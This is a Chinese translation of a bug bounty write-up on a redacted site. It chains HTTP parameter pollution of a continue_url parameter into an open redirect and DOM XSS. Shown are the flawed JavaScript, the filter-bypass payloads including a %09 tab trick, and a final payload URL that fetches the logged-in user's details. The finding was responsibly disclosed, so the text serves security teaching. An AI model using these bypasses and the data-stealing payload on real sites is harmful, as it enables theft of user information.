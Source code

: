 # 窃取用户信息-链接 XSS 和 Http 参数污染

> 原文：<https://levelup.gitconnected.com/stealing-user-information-via-xss-via-parameter-pollution-7d99b3379e7d>

我正在闲逛，突然这条推特出现在我的新闻订阅里。

![](img/daa10d6d7a71f6c7c10863f62df6d8b1.png)

[@zseano](http://twitter.com/zseano) 励志推文😁让我热泪盈眶

然后，我决定给自己一个新的开始，因为现在是 2021 年🎉。我登录了我的 [bugcrowd](https://bugcrowd.com) 账号，根据我的技能挑选了一个合适的目标(在这个目标上我曾经发现过 bug)。

我从源代码审查开始，审查了他们的一堆 javascript 文件，最终发现两个端点似乎容易受到**开放重定向+ XSS** 的攻击，因为开发人员允许应用程序在执行特定操作后重定向用户，而不是服务器，如下所示:

```
function get_param(param) {
    var params = {};
    var url = window.location.href;
    var start = url.indexOf('?');
    start = start < 0 ? url.length : start + 1;
    var end = url.indexOf('#');
    end = end < 0 ? url.length : end;
    var parameters = url.slice(start,end).split('&');for ( var i = 0; i < parameters.length; i++) {
        var parameter = parameters[i].split('=');
        params[parameter[0]] = parameter[1];
    } return params[param];
}// redirect from application
window.location.href = get_param("continue_url"); 
```

# 测试

我首先试图获得一个开放的重定向，但是服务器在发现任何其他域或在`continue_url`参数中的有效负载时重定向到一个`404`页面。因为我已经意识到服务器的环境是 Java 的，并且它的流行是因为参数污染。因此，我尝试两次添加相同的参数`?continue_url=redacted.com&continue_url=attacker.com`来验证它，令我惊讶的是，服务器只检查了 Uri 中的第一个参数，而忽略了受我的有效负载影响的第二个参数，这只是绕过了服务器的限制，导致重定向到`attacker.com`，但这是怎么做到的呢？让我们倒回去。

在那一点上，我也有点困惑，但是如果你和 javascript 曾经有过交集，那么你可能已经注意到了`get_param(param)`函数有问题。很耐人寻味，不是吗？你也应该试一试。我只能说，要么是开发人员没有完全意识到 Java 处理多个同名参数的行为，要么是他们在编写函数时没有考虑到这个问题。因此，该函数只是用重复的条目覆盖参数(仅)的值。

```
params[parameter[0]] = parameter[1];
```

如果有多个相同参数的条目，上面的代码将简单地用新值重写键`continue_url`的旧值。因此，如果我们用我们提供的参数调试上面的代码行，它看起来会像这样:

```
// setting value to continue_url
params["continue_url"] = "redacted.com"; // overwriting continue_url using parameter pollution
params["continue_url"] = "attacker.com";
```

因此，params 对象最终将包含以下键/值:

![](img/2b9018efdcb6545b8d4192b32692f2fb.png)

# 获取 XSS 并窃取用户信息

在掌握了服务器故障的诀窍后，我最终试图将这个问题升级到 XSS，并用 javascript 有效载荷`?continue_url=redacted.com&continue_url=javascript:alert(1)`替换它的值，但不幸的是，服务器返回了 **400 错误请求**错误，我就像这样:

![](img/02677581ce86b4e37634ee4b23576ef7.png)

因此，在使用`continue_url`参数后，我们发现即使通过参数污染绕过 404 错误，服务器仍然有一点安全，它会检查与`**javascript**`相关的关键字，并限制带有 **400** 错误的响应。

所以，我想出了以下测试案例:

```
**x**javascript:alert(1)  // 400 Bad Request
javaScript**x**:alert(1)  // 400 Bad Request
**x**javascript**x**:alert(1) // 400 Bad Request
java**x**script:alert(1)  // 200 OK (Breaking javascript)
```

在检查了这些测试案例后，我得出结论，服务器要么使用 regex 从参数字符串中提取并匹配可能的 **javascript** 关键字，以防止其受到 XSS 攻击。但是有一种简单的方法可以绕过这种限制，那就是在有效载荷中放入一个 urlencoded 制表符`**%09**`，它可以简单地破坏服务器的验证，而 javascript 完全忽略制表符，这会导致弹出一个警告。所以我使用的最终有效载荷是:

```
javas**%09**cript:alert(1) // 200 OK
```

在创建 POC 的同时，我想为什么不像我们一直做的那样，通过窃取用户信息来提高严重性，并编写了一个简单的脚本来窃取当前登录的用户详细信息:

```
**Script:**
fetch("https://redacted.com/path/to/userinfo").then(a => a.json()).then(a => console.log(a.response)); // Instead of logging user info, an attacker may send it to his/her server**// final payload**
https://redacted.com/endpoint?continue_url=redacted.com&continue_url=java%09Script:fetch(%22https://redacted.com/path/to/userinfo%22).then(a%3D%3Ea.json()).then(a%3D%3Econsole.log(a.response));//
```

# 控制台中记录的受害者信息:

![](img/9ecf6210f36200fab6137bec58633631.png)

攻击者可能会将其发送到他/她的服务器，但我们只是登录到控制台进行演示。

最终，我把它上报给了这个项目，经过几天的筛选，我终于获得了一个很好的奖励💰那是我 2021 年的第一笔赏金🎉

![](img/3fdac005eb0c60b11d3332b45e7e327b.png)

在推特上关注我:[哈姆扎·阿夫万](https://twitter.com/hamzaavvan)[@哈姆扎·阿夫万](https://twitter.com/hamzaavvan)

[![](img/9283513f16bb07df227bc70559890a67.png)](https://www.digitalocean.com/?refcode=7b5b6401934f&utm_campaign=Referral_Invite&utm_medium=Referral_Program&utm_source=badge)

道德黑客的快速可靠的 VPS